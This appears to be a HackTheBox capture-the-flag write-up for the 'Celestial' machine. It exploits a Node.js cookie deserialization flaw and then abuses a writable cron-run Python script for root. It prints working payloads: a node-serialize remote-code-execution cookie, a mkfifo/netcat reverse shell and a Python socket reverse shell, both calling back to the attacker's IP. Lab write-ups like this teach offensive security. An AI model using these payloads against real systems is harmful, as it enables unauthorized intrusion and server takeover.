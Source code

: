 ```yaml
---
title: "HackTheBox - Celestial"
author: Nasrallah
description: ""
date: 2023-05-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, nodejs, cronjob, python, deserialization]
img_path: /assets/img/hackthebox/machines/celestial
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Celestial](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). We exploit a deserialization vulnerability in a node.js website and get foothold. For root we find a cronjob running a python script that we can write to, so we add a python reverse shell and get root privileges.

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.85
Host is up (1.1s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

```

There is a web server on port 3000 running node.js.

## Web

Let's check the web server.

![](1.png)

It gave us 404, refreshing the page gives something different.

![](2.png)

The reason for that is that we got a cookie from the website.

![](3.png)

The cookie looks base64 encoded, let's try to decode it.

```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

We can see different key/value pairs, two of them get returned to us: `username` and `num`.

# **Foothold**

Since this is `Node.js`, let's see if it's vulnerable to Deserialization attack

I found the following payload in [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md)

```js
_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.10.17.90', function(error,stdout, stderr) { console.log(stdout) });}()
```

We replace `dummy` with the code above:

```json
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 5 10.10.17.90', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

And base64 encode the payload.

```terminal
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdwaW5nIC1jIDUgMTAuMTAuMTcuOTAnLCBmdW5jdGlvbihlcnJvcixzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsImNvdW50cnkiOiJJZGsgUHJvYmFibHkgU29tZXdoZXJlIER1bWIiLCJjaXR5IjoiTGFtZXRvd24iLCJudW0iOiIyIn0=
```

I tried multiple command like `id` and `uname` but didn't get anything back, so I edited the command to `ping` to see if it get's executed and we don't get a reply.

![](4.png)

We received the ICMP packets, which means the target reach us.

Now let's replace the `ping -c 10.10.10.10` command with a reverse shell. I used `nc mkfifo`.

```json
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 9000 >/tmp/f', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Encode the payload, setup a listener and send the request.

![](5.png)

We got a shell as `sun`, let's upgrade to a fully tty shell using python.

```terminal
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sun@celestial:~/.ssh$ export TERM=xterm
export TERM=xterm
sun@celestial:~/.ssh$ ^Z
zsh: suspended  nc -lvnp 9000
                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/www]
└──╼ $ stty raw -echo; fg                                                                                                                           148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 9000

sun@celestial:~/.ssh$ 

```

# **Privilege Escalation**

Running `pspy64` we see a cronjob executing a python script

![](6.png)

The script is owned by `sun` so we can edit it as we like.

We add the following script to the file and wait for a reverse shell.

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.90",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

![](7.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).